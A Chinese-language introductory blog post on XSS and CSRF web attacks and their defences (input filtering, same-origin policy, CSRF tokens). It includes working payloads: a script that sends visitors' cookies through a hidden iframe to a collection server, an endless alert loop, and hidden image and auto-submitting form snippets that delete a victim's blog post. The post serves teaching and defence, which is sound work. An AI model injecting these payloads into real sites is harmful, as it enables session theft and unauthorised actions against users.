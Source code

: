 ```yaml
---
title: XSS和CSRF浅析
date: 2018-01-31 22:39:32
tags:
    - 跨域
    - xss
    - csrf
categories:
    - web安全
---
```

web安全是一个广泛、复杂、深入的话题。其中跨站请求伪造CSRF(Cross-site request forgery)和跨站脚本攻击XSS(Cross-site Scripting)是web中很常见的两种威胁。这里我做一点最浅显的了解。
<!--more-->
## XSS
XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，例如发布评论，提交含有 JavaScript 的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。

### XSS恶作剧
假设在一篇博客的评论下注入以下代码
```js
//用 <script type="text/javascript"></script> 包起来放在评论中
while (true) {
    alert("你关不掉我~");
}
```
以后访问该博客的其他用户就会不断弹出关不掉的弹出窗口

### XSS盗取cookie
在网页中注入的代码如下
```js
// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```
我们在192.168.123.123的服务器上就可以收集到发送上来的cookie信息

于是每个访问到含有该评论的页面的用户都会遇到麻烦——他们不知道背后正悄悄的发起了一个请求，是他们所看不到的。而这个请求，会把包含了他们的帐号和其他隐私的信息发送到收集服务器上。
### 防范XSS
我们知道 **AJAX 技术所使用的 XMLHttpRequest 对象都被浏览器做了限制，只能访问当前域名下的 URL，所谓不能“跨域”问题。这种做法的初衷也是防范 XSS**，多多少少都起了一些作用，但不是总是有用，正如上面的注入代码，用 iframe 也一样可以达到相同的目的（因为iframe不受同源策略的限制）。甚至在愿意的情况下，我还能用 iframe 发起 POST 请求。当然，现在一些浏览器能够很智能地分析出部分 XSS 并予以拦截，例如新版的 Firefox、Chrome 都能这么做。但拦截不总是能成功，何况这个世界上还有大量根本不知道什么是浏览器的用户在用着可怕的 IE6。从原则上将，我们也不应该把事关安全性的责任推脱给浏览器，**所以防止 XSS 的根本之道还是过滤用户输入**。用户输入总是不可信任的，这点对于 Web 开发者应该是常识。

## CSRF
CSRF 的全称是“跨站请求伪造”，而 XSS 的全称是“跨站脚本”。看起来有点相似，它们都是属于跨站攻击——不攻击服务器端而攻击正常访问网站的用户。CSRF 顾名思义，是伪造请求，冒充用户在站内的正常操作。
其实XSS和CSRF并不是两种毫无关系完全对立的手段。XSS可以是实现CSRF诸多途径中的一条。

### CSRF删除别人的博文
在一个有安全缺陷的博客系统中。将设博客后端web应用程序的开发者采用如下途径来设计删除博文的功能
```html
//发送一个GET请求到'small-min.blog.com/delete?id=123'这个url
<a href="/delete?id=123">删除</a>
//后端收到这个GET请求后，验证这个请求带的cookie里面的session id是不是这个id为123博文的作者
//如果是的话，那就采取删除文章的操作
```
攻击者另外制作一个钓鱼网站（任意域名）里面有如下代码
```html
<a href='https://small-min.blog.com/delete?id=123'>开始测验</a>
```
这个时候假设博文的作者打开了钓鱼网站，并且点击了开始测验这个链接。浏览器就会发送一个GET请求给https://small-min.blog.com/delete?id=123 并且由于浏览器的运行机制。浏览器会一并把small-min.blog.com的cookie也带上去。服务端收到了这个请求，判断了cookie发现无误后就把这篇文章删除了。
**更高级的攻击代码**
```html
<img src='https://small-min.blog.com/delete?id=123' width='0' height='0' />
<a href='/test'>开始测验</a>
```
博文的作者甚至不用点击开始测验。只要打开了这个钓鱼网站.那么他的博文就会被删除了。

即使博客后端的设计人员认识到了使用GET来删除博文的危险性。将删除博文的机制由GET改成了POST
**CSRF攻击改为POST删除机制的博客系统**
```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='https://small-min.blog.com/delete' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='id' value='123'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```
博文的作者只要打开了以上钓鱼网站，无需任何操作，自己的博文还是会被删除了

假设博客后端的设计人员意识到了POST也不安全，按照RESTful的规范。把删除操作用DELETE这个HTTP Method来实现。那么暂时，我就找不到有什么html 标签可以被允许跨域发送DELETE请求了。如果攻击者打算在钓鱼网站注入Ajax请求代码来发起一个DELETE请求。那么不好意思，浏览器对Ajax有同源策略的限制。你的钓鱼网站的域名和博客系统的域名不在同一个源下。Ajax请求会被浏览器拦截。

但是假设这个博客系统又存在另一个缺陷（没有对用户评论输入进行过滤）那么攻击者可以先通过XSS，往博客系统中的比如评论的页面注入了Ajax攻击代码。此时由于Ajax攻击代码所在的页面与博客系统同源，这时候浏览器就不对这个请求拦截。当博文作者打开了这个被注入攻击代码的页面时，Ajax代码执行。自己的博文又被攻击者删除了。

#### CSRF Tokens
CSRF tokens是如何工作的呢？

1. 服务器发送给客户端一个token。
2. 客户端提交的表单中带着这个token。
3. 如果这个token不合法，那么服务器拒绝这个请求。
攻击者需要通过某种手段获取你站点的CSRF token,他们只能使用JavaScript来做。所以，如果你的站点不支持CORS，那么他们就没有办法来获取CSRF token，降低了威胁。

#### 参考资料
[讓我們來談談 CSRF](https://blog.techbridge.cc/2017/02/25/csrf-introduction/)
[总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
[这里有一些防范CSRF的方法](https://www.jianshu.com/p/64f60ce328b9)